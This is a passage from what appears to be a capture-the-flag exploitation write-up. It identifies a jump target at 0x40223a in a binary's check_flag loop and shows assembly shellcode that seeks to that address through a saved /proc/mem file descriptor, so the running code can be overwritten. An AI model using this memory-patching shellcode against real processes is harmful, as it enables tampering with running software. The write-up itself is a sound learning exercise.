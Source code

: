 ![IDA screenshot](img/ida.png)

After the `sleep(1)` call returns, the program jumps back to `0x40223a`, which is the beginning of the `while (1)` loop at L113. That seems like a solid candidate to overwrite(`r9` has the saved FD for the proc/mem file):

```asm
 46 // lseek(fd, 0x40223a, 0)
 47 mov     %r9, %rdi
 48 mov     $0x40223a, %rsi // jmp dst after sleep in check_flag
 49 xor     %rdx, %rdx
 50 xor     %rax, %rax
 51 mov     $0x8, %al
 52 syscall
```
